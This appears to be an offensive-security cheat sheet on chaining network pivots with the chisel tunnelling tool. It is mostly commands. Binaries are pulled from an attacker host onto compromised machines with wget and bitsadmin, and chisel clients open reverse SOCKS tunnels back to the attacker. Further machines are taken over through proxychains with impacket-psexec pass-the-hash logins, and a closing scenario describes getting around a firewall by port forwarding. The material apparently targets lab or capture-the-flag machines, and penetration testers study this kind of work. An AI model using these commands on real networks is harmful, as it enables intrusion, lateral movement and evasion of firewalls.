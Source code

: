 ## Chisel - Double/Multi Pivot Example
```
Create the following lines on proxychains4.conf
socks5 127.0.0.1 1080
#socks5 127.0.0.1 2080
#socks5 127.0.0.1 3080

This is on your attacker machine
chisel server -p 8001 --reverse # Do this on attacker machine aka us

# First pivot jump box - target machine
ssh -i id_rsa rooth@10.10.10.100
wget http://10.10.14.7:80/chisel
chmod +x chisel
# run this on the target machine - remember the ip here is your attacker machine
./chisel client 10.10.14.13:8001 R:1080:socks 

# PWN the 2nd box
proxychains -q impacket-psexec 'testuser'@172.16.1.10 -hashes ':NTLM_HASH_HERE'
bitsadmin.exe /transfer /Download /priority Foreground http://10.10.14.13:80/chisel.exe c:\windows\temp\chisel.exe

# Attacker machine 
#do this on another tab
chisel server -p 8002 --reverse 

# 2nd box to pivot - on the target box you already pwned
chisel.exe client 10.10.14.13:8002 R:2080:socks   # remember the ip here is your attacker machine

# Attacker Machine - configure proxychains4.conf
comment out socks5 127.0.0.1 1080
uncomment socks5 127.0.0.1 2080

# Attacker Machine - PWN the 3rd box
proxychains -q impacket-psexec 'administrator'@172.16.2.10 -hashes ':NTLM_HASH_HERE'

Wash rinse repeat to pivot a 3rd, 4th time etc...
```

## Chisel - Local Port Forward / Firewall Bypass
Scenario: You follow the above steps and pwn a jump box, pivot to first internal subnet, then pivot to a second internal subnet and pwn a machine in each subnet. There is another machine in the second internal subnet 172.16.2.17 which has an open ssh port based on scans from the compromised machine in that second internal subnet. There is a firewall and the only way to ssh to that port is to do local port forwarding.

In this example, 10.10.14.13 is your attack machine IP and 172.16.2.10 is the pwned machine in the 2nd internal subnet. 

Refer to this example: 10.10.14.13 (attacker machine) > 10.10.10.100 (jumpbox) > 172.16.1.10 (box in 1st internal subnet) > 172.16.2.10 (box in 2nd internal subnet) - 172.16.10.17 (next target hidden behind firewall)
